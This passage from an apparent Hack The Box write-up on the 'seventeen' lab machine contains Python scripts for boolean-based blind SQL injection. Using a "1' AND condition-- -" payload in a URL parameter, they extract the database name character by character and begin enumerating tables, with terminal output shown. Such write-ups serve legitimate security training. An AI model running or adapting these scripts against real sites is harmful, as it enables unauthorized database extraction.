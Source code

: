 ```python
    print("[*] Finding database name length...")
    for length in range(1, MAX_DB_LENGTH + 1):
        condition = f"LENGTH(database())={length}"
        if is_condition_true(condition):
            print(f"[✔] Database name length: {length}")
            return length
    print("[!] Could not determine the length.")
    return None

def extract_database_name(length):
    print("[*] Extracting database name...")
    db_name = ""
    for position in range(1, length + 1):
        for ascii_code in range(32, 127):  # Printable characters
            condition = f"ASCII(SUBSTRING(database(),{position},1))={ascii_code}"
            if is_condition_true(condition):
                db_name += chr(ascii_code)
                print(f"[+] Position {position}: {chr(ascii_code)}")
                break
    print(f"[✔] Extracted DB name: {db_name}")
    return db_name

if __name__ == "__main__":
    db_length = find_database_length()
    if db_length:
        db_name = extract_database_name(db_length)
```

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ python sqli_get_db_name.py 
[*] Finding database name length...
[✔] Database name length: 7
[*] Extracting database name...
[+] Position 1: e
[+] Position 2: r
[+] Position 3: m
[+] Position 4: s
[+] Position 5: _
[+] Position 6: d
[+] Position 7: b
[✔] Extracted DB name: erms_db
```

##### Tables

```python
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ cat sqli_get_tables.py 
import requests

BASE_URL = "http://exam.seventeen.htb/?p=take_exam&id="
SUCCESS_KEYWORD = "202202-00001"

def is_condition_true(condition):
    payload = f"1' AND {condition}-- -"
    target_url = BASE_URL + payload
    try:
        response = requests.get(target_url, timeout=5)
        return SUCCESS_KEYWORD in response.text
    except Exception as e:
        print(f"[!] Request failed: {e}")
        return False

def find_table_count(max_tables=20):
```